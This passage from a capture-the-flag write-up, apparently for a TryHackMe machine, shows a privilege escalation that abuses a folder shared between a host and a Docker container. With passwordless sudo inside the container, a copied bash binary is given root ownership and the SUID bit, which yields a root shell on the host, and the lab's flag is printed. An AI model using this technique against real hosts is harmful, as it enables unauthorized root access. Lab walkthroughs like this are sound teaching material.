```bash
dylan@year-of-the-dog:/gitea/git$ touch bla
```

and on the docker:
```bash
bash-5.0$ ls -l /data/git
total 8
-rw-r--r--    1 git      git              0 Jan 19 23:24 bla
drwxr-xr-x    2 git      git           4096 Sep  5  2020 lfs
drwxr-xr-x    3 git      git           4096 Sep  5  2020 repositories
```

Okay, there is some connection between these two folders, probably some mounting.
I checked for sudo permissions on the docker container, and saw we have root permissions:
```bash
bash-5.0$ sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
```

So, we can copy `/bin/bash` on the host machine to the shared folder, then the container will change the file ownership to `root` and the desired `SUID` bit, whice will give us the ability to spawn root shell on the host machine.
We need to change ownership because the root stays root over all machines, but `git` user isn't exist on the host machine, same with `dylan` on the container.

On the host machine, only copy the bash to the folder:
```bash
dylan@year-of-the-dog:/gitea/git$ cp /bin/bash ./our_shell
```



Then, on the docker container:
```bash
bash-5.0$ sudo chown root:root /data/git/our_shell 
bash-5.0$ sudo chmod u+s /data/git/our_shell
```

And the root flag is:
```bash
our_shell-4.4# cat root.txt 
THM{MzlhNGY5YWM0ZTU5ZGQ0OGI0YTc0OWRh}
```

I checked later, the mount actually exists, between `/gitea` to `/data`.


